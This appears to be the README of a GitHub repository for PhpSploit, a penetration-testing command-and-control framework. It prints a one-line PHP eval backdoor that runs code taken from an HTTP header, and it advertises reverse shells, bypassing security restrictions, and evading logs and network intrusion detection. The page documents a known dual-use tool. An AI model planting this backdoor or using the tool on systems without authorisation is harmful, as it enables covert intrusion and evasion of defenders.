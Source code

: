 <p align="center">
  <a href="https://github.com/trhacknon/phpsploit" alt="master">
    <img src="data/img/logo.png" alt="Master">
  </a>
</p>

<h3 align="center">
    Full-featured C2 framework which silently persists on <br>webserver via polymorphic PHP oneliner
    <a href="https://twitter.com/intent/tweet?text=PhpSploit%2C%20Full-featured%20C2%20framework%20which%20silently%20persists%20on%20webserver%20via%20polymorphic%20PHP%20oneliner%20-%20by%20@nil0x42&url=https://github.com/trhacknon/phpsploit">
      <img src="https://img.shields.io/twitter/url?label=tweet&logo=twitter&style=social&url=http%3A%2F%2F0" alt="tweet">
    </a>
</h3>
<br>

<p align="center">
  <a href="https://github.com/trhacknon/phpsploit/actions?query=branch%3Amaster">
    <img src="https://img.shields.io/github/workflow/status/trhacknon/phpsploit/Unit%20Tests/master?logo=githubactions" alt="github workflows">
  </a>
  <a href="https://requires.io/github/trhacknon/phpsploit/requirements/?branch=master">
    <img src="https://requires.io/github/trhacknon/phpsploit/requirements.svg?branch=master" alt="requires.io requirements">
  </a>
  <a href="https://app.codacy.com/gh/trhacknon/phpsploit/dashboard">
    <img src="https://img.shields.io/codacy/grade/f8514058aec04ad98727c79701bc042a?logo=codacy&logoColor=green" alt="codacy code quality">
  </a>
  <a href="https://lgtm.com/projects/g/trhacknon/phpsploit/alerts/">
    <img src="https://img.shields.io/lgtm/alerts/github/trhacknon/phpsploit?logo=lgtm&logoColor=yellow" alt="lgtm alerts">
  </a>
  <a href="https://codecov.io/gh/trhacknon/phpsploit">
    <img src="https://img.shields.io/codecov/c/github/trhacknon/phpsploit?color=orange&label=coverage&logo=codecov" alt="codecov coverage">
  </a>
  <a href="https://codeclimate.com/github/trhacknon/phpsploit/maintainability">
    <img src="https://api.codeclimate.com/v1/badges/6986200c1729b4a70a40/maintainability" alt="codeclimate maintainability">
  </a>
</p>

<p align="center">
  <a href="https://github.com/enaqx/awesome-pentest">
    <img src="https://awesome.re/mentioned-badge.svg">
  </a>
  <a href="https://www.kali.org/tools/phpsploit/">
    <img src="https://img.shields.io/static/v1?label=Kali%20Linux&message=packaged&color=red&logo=kalilinux&logoColor=ff0">
  </a>
  <a href="https://www.blackarch.org/webapp.html">
    <img src="https://img.shields.io/static/v1?label=BlackArch&message=packaged&color=red&logo=archlinux&logoColor=006">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=nil0x42" target="_blank">
    <img src="https://img.shields.io/twitter/follow/nil0x42.svg?logo=twitter">
  </a>
</p>

<div align="center">
  <sub>
    Created by
    <a href="https://twitter.com/">trhacknon</a> and
    <a href="https://github.com/trhacknon/phpsploit#contributors">contributors</a>
  </sub>
</div>

<br>

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

<p align="center">
  <img src="data/img/demo.png">
</p>


#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/trhacknon/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate privilege-escalation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any option (`help` command)
    -   _Cross-platform_ on both client and server.
    -   CLI supports auto-completion & multi-command
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD-like
-   Mac OS X
-   Windows NT

## Contributors

<!-- [![](https://contrib.rocks/image?repo=trhacknon/phpsploit)](https://github.com/trhacknon/phpsploit/graphs/contributors) -->
<!-- <details> -->
<!-- <summary><b>:trophy: All contributors</b></summary> -->
Thanks goes to these wonderful people:
<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore-start -->
<!-- markdownlint-disable -->
<table>
  <tr>
    <td align="center"><a href="https://exdemia.com"><img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt=""/><br /><sub><b>nil0x42</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/commits?author=nil0x42" title="Code">💻</a> <a href="#infra-nil0x42" title="Infrastructure (Hosting, Build-Tools, etc)">🚇</a> <a href="#plugin-nil0x42" title="Plugin/utility libraries">🔌</a> <a href="https://github.com/trhacknon/phpsploit/commits?author=trhacknon" title="Tests">⚠️</a></td>
    <td align="center"><a href="https://github.com/shiney-wh"><img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt=""/><br /><sub><b>shiney-wh</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/commits?author=shiney-wh" title="Code">💻</a> <a href="#plugin-shiney-wh" title="Plugin/utility libraries">🔌</a></td>
    <td align="center"><a href="http://wapiflapi.github.io"><img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt=""/><br /><sub><b>Wannes Rombouts</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/commits?author=wapiflapi" title="Code">💻</a> <a href="#maintenance-wapiflapi" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://yurilz.com"><img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt=""/><br /><sub><b>Amine Ben Asker</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/commits?author=yurilaaziz" title="Code">💻</a> <a href="#maintenance-yurilaaziz" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://twitter.com/jnazario"><img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt=""/><br /><sub><b>jose nazario</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/commits?author=paralax" title="Documentation">📖</a> <a href="https://github.com/trhacknon/phpsploit/issues?q=author%3Aparalax" title="Bug reports">🐛</a></td>
    <td align="center"><a href="http://wikisecure.net"><img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt=""/><br /><sub><b>Sujit Ghosal</b></sub></a><br /><a href="#blog-sujit" title="Blogposts">📝</a></td>
    <td align="center"><a href="https://github.com/sohelzerdoumi"><img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt=""/><br /><sub><b>Zerdoumi</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/issues?q=author%3Asohelzerdoumi" title="Bug reports">🐛</a></td>
  </tr>
  <tr>
    <td align="center"><a href="https://github.com/tristandostaler"><img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt=""/><br /><sub><b>tristandostaler</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/issues?q=author%3Atristandostaler" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://github.com/rohantarai"><img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt=""/><br /><sub><b>Rohan Tarai</b></sub></a><br /><a href="https://github.com/trhacknon/phpsploit/issues?q=author%3Arohantarai" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://triop.se"><img src="https://avatars1.githubusercontent.com/u/190150?v=4" width="100px;" alt=""/><br /><sub><b>Jonas Lejon</b></sub></a><br /><a href="#blog-jonaslejon" title="Blogposts">📝</a></td>
  </tr>
</table>

<!-- markdownlint-enable -->
<!-- prettier-ignore-end -->
<!-- ALL-CONTRIBUTORS-LIST:END -->
This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome

<!-- </details> -->
